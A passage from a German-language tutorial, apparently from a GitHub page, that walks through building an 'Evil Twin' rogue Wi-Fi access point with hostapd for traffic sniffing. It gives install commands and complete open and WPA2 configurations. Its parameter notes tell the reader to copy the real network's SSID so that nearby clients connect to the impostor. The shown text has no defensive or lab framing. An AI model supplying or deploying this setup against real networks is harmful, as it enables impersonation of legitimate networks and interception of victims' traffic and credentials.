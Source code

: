 **Option 2: Ethernet-Bridge (wenn verfügbar)**
- wlan0 = Evil Twin AP  
- eth0 = Internet via Kabel

**Option 3: Ohne Internet (nur Sniffing)**
- wlan0 = Evil Twin AP
- Kein Uplink (Clients bekommen kein Internet)

**Für dieses Tutorial: Option 3 (einfachste)**

#### Schritt 1: hostapd konfigurieren

**Installiere hostapd:**
```bash
apt-get update
apt-get install hostapd
```

**Erstelle Config-Datei:**
```bash
nano /tmp/hostapd.conf
```

**Inhalt (Open Network):**
```
interface=wlan0
driver=nl80211
ssid=MeinNetz
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0
```

**Inhalt (WPA2 - mit gefaktem Passwort):**
```
interface=wlan0
driver=nl80211
ssid=MeinNetz
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=FakePassword123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
rsn_pairwise=CCMP
```

**Parameter erklärt:**
- `interface`: Welches WiFi-Interface
- `ssid`: Netzwerk-Name (kopiere das echte!)
- `hw_mode`: g = 2.4GHz, a = 5GHz
- `channel`: Gleicher oder anderer Kanal als Original
- `wpa_passphrase`: Fake-Passwort (Clients probieren echtes, bekommen Fehler)
